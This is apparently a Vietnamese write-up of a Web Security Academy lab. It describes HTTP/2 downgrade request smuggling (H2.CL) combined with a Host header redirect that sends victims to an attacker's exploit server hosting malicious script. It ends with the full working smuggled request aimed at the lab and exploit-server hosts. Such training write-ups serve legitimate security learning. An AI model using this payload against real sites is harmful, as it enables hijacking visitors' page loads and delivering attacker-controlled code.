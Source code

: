 >Tiếp theo, mỗi lần load trang chủ `/`, trang web sẽ tìm nạp 1 số tài nguyên khác tại endpoint `/resources/....`:
>![image](https://hackmd.io/_uploads/B1e_XWL_R.png)

>Thử request tới `/resources`, ta sẽ đươck redirect về `https://domain-web/resources/`:
>![image](https://hackmd.io/_uploads/SJRomWUuA.png)

>Điều này làm ta liên tưởng tới lỗ hổng Host Header, bằng cách thay đổi giá trị host và tạo đường dẫn `/resources` chứa mã độc mà ta lưu trữ trước, và tấn công dạng `H2.CL`, victim khi load trang chủ sẽ bị redirect về server chứa mã độc của ta!!

>Thật vậy, kiểm chứng bằng cách inject 1 Host bất kì với header `Content-Length=10` dài hơn 1 chút so với phần body 1 kí tự `a`, để khi ghép với request phía sau sẽ cắt bớt phần header của rq sau => dẫn tới việc ko bị xung đột duplicate:
>![image](https://hackmd.io/_uploads/SyQPr-UOR.png)

>Sau khi gửi request 2 lần thì server sẽ redirect ta về `https://abc.com/resources/` mà ta mong muốn!

>Lưu payload vào exploit server:
>![image](https://hackmd.io/_uploads/ryS7DbIOA.png)

>Và thay đổi hot thành expoit server:
>![image](https://hackmd.io/_uploads/Sk2_Db8_0.png)

>Send request thì thấy đã có victim bị chuyển hướng vào, chứng tỏ payload hoạt động tốt!!
>![image](https://hackmd.io/_uploads/SJSN2WLu0.png)
```
POST / HTTP/2
Host: 0af000470400067c845900ff0057005c.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Length: 0
Content-Type: application/x-www-form-urlencoded

GET /resources HTTP/1.1
Host: exploit-0a3d00d0044f064483dfffeb012400f5.exploit-server.net
Content-Length: 10

x=1
```
